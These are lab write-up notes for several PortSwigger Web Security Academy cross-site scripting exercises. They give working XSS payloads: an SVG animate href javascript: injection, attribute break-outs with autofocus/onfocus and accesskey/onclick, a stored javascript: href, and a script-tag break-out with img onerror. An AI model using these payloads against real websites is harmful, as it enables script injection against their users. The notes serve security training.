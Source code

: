 ### Reflected XSS with event handlers and href attributes blocked
Replace the url with below payload
```
https://0aa1006603436b73c0693771006f007f.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
```
This injection creates a html tag that will trigger an alert function

### Reflected XSS into attribute with angle brackets HTML-Encoded
Submit a random alphanumeric with angle brackets in the vulnerable source and intercept the request with burpsuite & notice that the angle brackets is html encoded

Using the payload below
```
" autofocus onfocus=alert(1) x"
```
The payload introduces a new scriptable context, an event handler, the first double quote is to break out of the original tags and later provide an event handler that will trigger alert()

### Stored XSS into anchor href attribute with double quotes HTML-Encoded
Submit a random alphanumeric in the vulnerable source

Send a post request for the page that displays the alphanumeric & notice that there are href attribute that can be exploited

Using the below payload
```
javascript:alert()
# The payload will look like <a href="javascript:alert()">
```

### Reflected XSS in canonical link tag
```
https://your-lab-id.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
```
This will set the x key as an access key for the whole page, to trigger the payload, the user will have to press the x shortcut key (Alt+x) on linux

### Reflected XSS into a JavaScript string with single quote and backslash escaped
Submit a random alphanumeric string in the vulnerable source

View the page source of the submitted string and notice the strings is put inside a javascript string

Since single quote and backslash is escaped, we cant break out of the string in the javascript tag

To exploit this, we first need to break out of the script tag and calls an event handler like below
```
</script><img src=1 onerror=alert(1)>
# since the img source does not exist, an error will be omitted, with that an alert will pops up
```
